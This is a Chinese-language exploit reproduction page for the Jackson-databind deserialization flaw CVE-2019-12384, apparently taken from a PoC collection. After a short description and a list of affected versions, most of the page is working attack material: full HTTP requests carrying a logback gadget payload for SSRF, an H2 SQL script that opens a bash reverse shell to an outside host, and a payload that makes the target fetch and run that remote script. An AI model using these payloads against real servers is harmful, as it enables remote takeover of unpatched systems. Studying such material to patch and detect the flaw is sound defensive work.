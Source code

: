 # Jackson-databind远程代码执行 CVE-2019-12384

# Jackson-databind 远程代码执行 CVE-2019-12384

## 漏洞描述

多个Redhat产品受此漏洞影响，CVSS评分为8.1，漏洞利用复杂度高。

该漏洞是由于Jackson黑名单过滤不完整而导致，当开发人员在应用程序中通过ObjectMapper对象调用enableDefaultTyping方法时，程序就会受到此漏洞的影响，攻击者就可利用构造的包含有恶意代码的json数据包对应用进行攻击，直接获取服务器控制权限。

## 漏洞影响

受影响版本：

```
Jackson-databind 2.X < 2.9.9.1
```

不受影响版本：

```
Jackson-databind 2.9.9.1
Jackson-databind 2.10
```

## 漏洞复现

### SSRF

```
POST /fuckme HTTP/1.1
Host: 192.168.136.131:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

poc=["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:tcp://192.168.136.129:7777/"}]
```

或者直接使用dnslog验证：

```
poc=["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:tcp://jcqfpe.dnslog.cn/"}]
```

### RCE

首先在vps上放置一个.sql的文件，内容如下：


```sql
CREATE ALIAS SHELLEXEC AS $ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$;
CALL SHELLEXEC('bash -i >& /dev/tcp/192.168.136.129/7777 0>&1')
```

然后发送payload，请求远程的sql文件，进行RCE


```
POST /fuckme HTTP/1.1
Host: 192.168.136.131:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 164

poc=["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://192.168.136.129/exp.sql'"}]

```


